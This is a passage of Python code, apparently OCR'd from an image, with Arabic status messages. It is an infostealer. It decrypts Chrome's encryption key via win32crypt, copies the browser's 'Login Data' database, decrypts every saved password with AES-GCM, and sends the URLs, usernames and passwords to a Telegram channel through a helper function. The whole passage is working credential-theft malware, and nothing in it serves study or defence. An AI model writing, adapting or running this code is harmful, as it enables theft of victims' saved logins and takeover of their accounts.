```python
        decrypted_key = win32crypt.CryptUnprotectData(key, None, None, None, 0)[1]
        return decrypted_key
    except Exception as e:
        send_to_telegram_split(f"⚠️ فشل في فك تشفير مفتاح التشفير من 'Local State': {str(e)}")
        return None

def decrypt_password(password, key):
    try:
        if not password.startswith(b'v10') and not password.startswith(b'v11'):
            return win32crypt.CryptUnprotectData(password, None, None, None, 0)[1].decode('utf-8')
        iv = password[3:15]
        password = password[15:]
        cipher = AES.new(key, AES.MODE_GCM, iv)
        decrypted = cipher.decrypt(password)[:-16].decode()
        return decrypted
    except Exception as e:
        return f"[فشل فك التشفير: {str(e)}]"

def extract_browser_credentials():
    try:
        chrome_path = os.path.join(os.environ["USERPROFILE"], "AppData", "Local", "Google", "Chrome", "User Data", "Default", "Login Data")
        if not os.path.exists(chrome_path):
            send_to_telegram_split("⚠️ ملف 'Login Data' غير موجود في مسار Chrome. تأكد من تثبيت Chrome وتسجيل الدخول.")
            return
        temp_db = os.path.join(tempfile.gettempdir(), "Login_Data_temp")
        shutil.copy2(chrome_path, temp_db)
        conn = sqlite3.connect(temp_db)
        cursor = conn.cursor()
        cursor.execute("SELECT origin_url, username_value, password_value FROM logins")
        rows = cursor.fetchall()
        encryption_key = get_encryption_key()
        if not encryption_key:
            send_to_telegram_split("⚠️ تعذر استخراج مفتاح التشفير. شغّل الكود كمستخدم عادي.")
            conn.close()
            os.remove(temp_db)
            return
        credentials = []
        for row in rows:
            url, username, encrypted_password = row
            if username and encrypted_password:
                password = decrypt_password(encrypted_password, encryption_key)
                credentials.append(f"🌐 الموقع: {url}\n👤 الإيميل/اسم المستخدم: {username}\n🔒 كلمة المرور: {password}")
            else:
                credentials.append(f"🌐 الموقع: {url}\n👤 الإيميل/اسم المستخدم: {username or '[غير متوفر]'}\n🔒 كلمة المرور: [غير متوفرة]")
        conn.close()
        os.remove(temp_db)
        if credentials:
            message = "📋 بيانات تسجيل الدخول من Chrome:\n\n" + "\n\n".join(credentials)
            send_to_telegram_split(message)
        else:
            send_to_telegram_split("⚠️ لم يتم العثور على بيانات صالحة لتسجيل الدخول في Chrome.")
    except Exception as e:
        send_to_telegram_split(f"⚠️ خطأ عام أثناء استخراج بيانات المتصفح: {str(e)}")
        if os.path.exists(temp_db):
            os.remove(temp_db)
```
